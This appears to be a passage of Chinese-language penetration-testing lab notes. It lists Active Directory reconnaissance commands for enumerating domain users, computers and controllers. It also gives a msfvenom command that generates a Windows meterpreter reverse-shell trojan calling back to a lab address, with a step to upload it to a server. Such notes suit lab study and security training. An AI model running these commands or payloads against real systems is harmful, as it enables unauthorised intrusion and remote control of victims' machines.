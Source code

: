 ```powershell
whoami /user                                #查看用户SID和域SID，如用户的SID是：S-1-5-21-2189311154-2766837956-1982445477-520 则域SID则是去掉最后的520：S-1-5-21-2189311154-2766837956-1982445477
 
以下命令只能在域控服务器上查询
dsquery user                                #查询目录中的用户
dsquery computer                            #查询目录中的主机
dsquery group                               #查询目录中的组.
dsquery ou                                  #查询目录中的组织单元.
dsquery site                                #查询目录中的站点
dsquery server                              #查询域控
dsquery contact                             #查询目录中的联系人
dsquery subnet                              #查询目录中的子网
dsquery quota                               #查询目录中的配额规定.
dsquery partition                           #查询目录中的分区.
dsquery *                                   #用通用的LDAP查询来查找目录中的任何对 
dsquery server –domain xie.com | dsget server–dnsname –site     #搜索域内域控制器的DNS主机名和站点名
dsquery computer domainroot –name -xp –limit 10      #搜索域内以-xp结尾的机器10台
dsquery user domainroot –name admin -limit           #搜索域内以admin开头的用户10个
```

 查询域控的主机名

```powershell
方法一：net group "domain controllers" /domain       #这里查询结果后面会多一个 $ 
方法二：nltest /DCLIST:xxxx.com
方法三：net time /domain 
方法四：nslookup -type=srv _ldap._tcp
方法五：查看DNS服务器的地址，一般DNS服务器的IP就是域控的地址
方法六：netdom query pdc                             #该命令只能在域控上执行
方法七：dsquery server                               #该命令只能在域控上执行
```



## 12.MSF生成木马

### ~~1.反向连接：（失败）~~

lhost填写 windows 7的内网地址

```
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.20.98  lport=5555 -f exe -o /home/kali/55.exe
```

把木马上传到 windows server 2016服务器

